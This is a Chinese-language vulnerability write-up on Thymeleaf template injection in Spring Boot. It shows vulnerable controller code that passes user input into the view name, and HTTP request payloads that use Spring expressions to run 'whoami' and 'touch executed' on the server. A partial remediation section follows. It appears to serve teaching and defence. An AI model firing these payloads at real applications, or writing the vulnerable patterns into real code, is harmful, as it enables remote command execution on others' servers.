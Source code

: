 ## 0x04 不安全的java代码

#### 第一种：

```
    @GetMapping("/path")
    public String path(@RequestParam String lang) {
        return  lang ; //template path is tainted
    }

```

在查找模板中，引用了用户输入的内容

payload

```
GET /path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22).getInputStream()).next()%7d__::.x HTTP/1.1
Host: www.0-sec.org:8090
Connection: close

```

![2.png](media/202009/1329cdf9771041f1a729d7f596c19f3a.png)

#### 第二种

根据spring boot定义，如果controller无返回值，则以GetMapping的路由为视图名称。当然，对于每个http请求来讲，其实就是将请求的url作为视图名称，调用模板引擎去解析。

> https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html#mvc-ann-return-types

在这种情况下，我们只要可以控制请求的controller的参数，一样可以造成RCE漏洞。例如我们可以控制document参数

```
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x

```

## 0x05 修复方案

### 1\. 设置ResponseBody注解

如果设置`ResponseBody`，则不再调用模板解析

### 2\. 设置redirect重定向

```
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
    return "redirect:" + url; //CWE-601, as we can control the hostname in redirect

```

